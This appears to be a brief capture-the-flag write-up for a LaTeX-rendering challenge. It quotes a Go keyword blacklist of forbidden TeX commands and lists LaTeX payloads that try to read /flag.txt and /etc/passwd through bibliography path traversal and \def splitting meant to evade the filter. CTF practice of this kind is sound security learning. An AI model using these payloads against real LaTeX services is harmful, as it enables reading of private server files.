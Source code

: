 # latex

My first LaTeX website for my math teacher. I hope this will become the best gift for him! :)

## Solution

http://0.0.0.0:52132

https://github.com/rwestlund/gotex/blob/master/main.go

```go
blacklist = []string{"\\input", "include", "newread", "openin", "file", "read", "closein",
		"usepackage", "fileline", "verbatiminput", "url", "href", "text", "write",
		"newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics",
		"openout", "newcommand", "expandafter", "csname", "endcsname", "^^"}
```

```latex

\documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
This is a LaTeX document.
\end{verbatim}
\end{document}

\documentclass[12pt]{article}
\begin{document}
This is a LaTeX document.
\addbibresource{/flag.txt}
\end{document}

\documentclass[12pt]{article}
\def\custominput{input{/etc/passwd}}
\begin{document}
\custominput
\end{document}

\documentclass[12pt]{article}
% \makeglossary
% \glossary{test}
\bibliography{../../../../../../flag.txt}
\addbibresource{../../../../../flag.txt}

\begin{document}
This is a LaTeX document.
\nocite{*}
\end{document}
                        
% make glossary entries with \input{}

\bibliography{../../../../../../env/passwd} 



\documentclass[12pt]{article}      
\def\a{inp}
\def\b{ut}

\begin{document}
This is a LaTeX document.
\verb|\a\b|{/etc/passwd}
\end{document}

```

